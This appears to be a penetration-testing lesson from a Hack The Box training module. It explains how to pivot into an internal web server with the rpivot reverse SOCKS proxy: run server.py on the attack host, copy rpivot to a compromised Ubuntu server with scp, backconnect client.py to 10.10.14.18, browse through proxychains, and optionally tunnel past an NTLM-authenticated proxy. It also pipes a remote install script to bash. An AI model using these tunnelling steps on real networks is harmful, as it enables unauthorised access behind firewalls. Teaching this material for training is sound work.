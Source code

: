 # Web Server Pivoting with Rpivot

---

[Rpivot](https://github.com/klsecservices/rpivot) is a reverse SOCKS proxy tool written in Python for SOCKS tunneling. Rpivot binds a machine inside a corporate network to an external server and exposes the client's local port on the server-side. We will take the scenario below, where we have a web server on our internal network (`172.16.5.135`), and we want to access that using the rpivot proxy.

![](imgs/77.webp)

We can start our rpivot SOCKS proxy server using the below command to allow the client to connect on port 9999 and listen on port 9050 for proxy pivot connections.

#### Cloning rpivot

Web Server Pivoting with Rpivot

```shell-session
frank-106@htb[/htb]$ git clone https://github.com/klsecservices/rpivot.git
```

#### Installing Python2.7

Web Server Pivoting with Rpivot

```shell-session
frank-106@htb[/htb]$ sudo apt-get install python2.7
```

#### Alternative Installation of Python2.7

Web Server Pivoting with Rpivot

```shell-session
frank-106@htb[/htb]$ curl https://pyenv.run | bash
frank-106@htb[/htb]$ echo 'export PYENV_ROOT="$HOME/.pyenv"' >> ~/.bashrc
frank-106@htb[/htb]$ echo 'command -v pyenv >/dev/null || export PATH="$PYENV_ROOT/bin:$PATH"' >> ~/.bashrc
frank-106@htb[/htb]$ echo 'eval "$(pyenv init -)"' >> ~/.bashrc
frank-106@htb[/htb]$ source ~/.bashrc
frank-106@htb[/htb]$ pyenv install 2.7
frank-106@htb[/htb]$ pyenv shell 2.7
```

We can start our rpivot SOCKS proxy server to connect to our client on the compromised Ubuntu server using `server.py`.

#### Running server.py from the Attack Host

Web Server Pivoting with Rpivot

```shell-session
frank-106@htb[/htb]$ python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0
```

Before running `client.py` we will need to transfer rpivot to the target. We can do this using this SCP command:

#### Transfering rpivot to the Target

Web Server Pivoting with Rpivot

```shell-session
frank-106@htb[/htb]$ scp -r rpivot ubuntu@<IpaddressOfTarget>:/home/ubuntu/
```

#### Running client.py from Pivot Target

Web Server Pivoting with Rpivot

```shell-session
ubuntu@WEB01:~/rpivot$ python2.7 client.py --server-ip 10.10.14.18 --server-port 9999

Backconnecting to server 10.10.14.18 port 9999
```

#### Confirming Connection is Established

Web Server Pivoting with Rpivot

```shell-session
New connection from host 10.129.202.64, source port 35226
```

We will configure proxychains to pivot over our local server on 127.0.0.1:9050 on our attack host, which was initially started by the Python server.

Finally, we should be able to access the webserver on our server-side, which is hosted on the internal network of 172.16.5.0/23 at 172.16.5.135:80 using proxychains and Firefox.

#### Browsing to the Target Webserver using Proxychains

Web Server Pivoting with Rpivot

```shell-session
proxychains firefox-esr 172.16.5.135:80
```

![](imgs/rpivot_proxychain.webp)

Similar to the pivot proxy above, there could be scenarios when we cannot directly pivot to an external server (attack host) on the cloud. Some organizations have [HTTP-proxy with NTLM authentication](https://docs.microsoft.com/en-us/openspecs/office_protocols/ms-grvhenc/b9e676e7-e787-4020-9840-7cfe7c76044a) configured with the Domain Controller. In such cases, we can provide an additional NTLM authentication option to rpivot to authenticate via the NTLM proxy by providing a username and password. In these cases, we could use rpivot's client.py in the following way:

#### Connecting to a Web Server using HTTP-Proxy & NTLM Auth

Web Server Pivoting with Rpivot

```shell-session
python client.py --server-ip <IPaddressofTargetWebServer> --server-port 8080 --ntlm-proxy-ip <IPaddressofProxy> --ntlm-proxy-port 8081 --domain <nameofWindowsDomain> --username <username> --password <password>
```